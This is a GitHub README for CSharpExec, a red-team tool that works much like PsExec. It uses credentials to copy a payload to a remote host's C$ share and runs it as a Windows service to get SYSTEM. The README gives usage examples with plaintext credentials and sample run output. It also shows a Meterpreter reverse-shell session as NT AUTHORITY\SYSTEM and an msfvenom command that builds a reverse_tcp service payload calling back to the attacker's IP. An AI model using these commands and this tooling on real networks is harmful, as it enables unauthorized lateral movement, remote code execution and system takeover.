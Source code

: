 # CSharpExec

PSExec, kinda.

This project can use both the current context and credentials to connect to a remote host, copy the payload, and then create and start a service. Once the service is running, it will then remove it. 

## Usage
```
[*] Usage: .\CSharpExec.exe <Host> [<Username>] [<Password>] <Path2Exe>
[*] Example 1: .\CSharpExec.exe 192.168.0.1 Administrator Password123! c:\beacon-svc.exe
[*] Example 2: .\CSharpExec.exe 192.168.0.1 Administrator Password123! c:\beacon-svc.exe C$
[*] Example 3: .\CSharpExec.exe 192.168.0.1 c:\beacon-svc.exe
[*] Example 4: .\CSharpExec.exe 192.168.0.1 c:\beacon-svc.exe C$
```

Like most of this stuff I write, its fairly verbose so it should be obvious(?) if something goes wrong. Heres some example output:
```
[*] Using: \\10.10.11.115\c$
[*] Using credentials: Administrator:Password123!
[*] Attempting to connect to: \\10.10.11.115\c$
[+] Response from share: NO_ERROR
[*] Copying shell-svc.exe to \\10.10.11.115\c$\Y5IuCQ8h
[+] Copied to \\10.10.11.115\c$\Y5IuCQ8h
[*] Attempting to create service: Y5IuCQ8h
[+] Handle for OpenSCManager obtained: 13645056
[+] Handle for CreateService obtained: 13645056
[+] Y5IuCQ8h created!
[*] Attempting to start the service...
[+] Y5IuCQ8h was started!
[*] Session should have returned, uninstalling Y5IuCQ8h
[*] Attempting to remove the service...
[+] Y5IuCQ8h was deleted!
```
As expected, this returns `SYSTEM`:
```
msf5 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.11.119:443 
[*] Sending stage (201283 bytes) to 10.10.11.115
[*] Meterpreter session 7 opened (10.10.11.119:443 -> 10.10.11.115:59263) at 2020-07-26 00:06:05 +0100

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > 

```

I borrowed some enums from [this project](https://github.com/malcomvetter/CSExec/blob/master/csexec/Program.cs) which is similar, but takes a different approach. As for the binary I used to get the meterpreter:
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.11.119 LPORT=443 -f exe-service -o ~/Dropbox/shell-svc.exe
```
